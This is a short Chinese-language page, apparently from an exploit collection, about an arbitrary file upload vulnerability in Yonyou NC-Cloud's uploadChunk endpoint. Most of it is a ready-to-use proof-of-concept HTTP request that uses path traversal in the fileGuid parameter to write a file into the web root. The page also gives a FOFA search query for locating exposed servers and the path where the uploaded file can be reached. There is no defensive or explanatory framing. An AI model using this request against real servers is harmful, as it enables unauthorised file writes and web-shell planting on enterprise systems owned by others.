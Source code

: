 ## 用友NC-Cloud uploadChunk 任意文件上传漏洞

## fofa
```
app="用友-NC-Cloud"
```


## POC
```
POST /ncchr/pm/fb/attachment/uploadChunk?fileGuid=/../../../nccloud/&chunk=1&chunks=1 HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data;
Content-Disposition: form-data; name="file"; filename="test.txt"
{{randstr}}
--024ff46f71634a1c9bf8ec5820c26fa9--

```

文件上传路径访问
/nccloud/test.txt
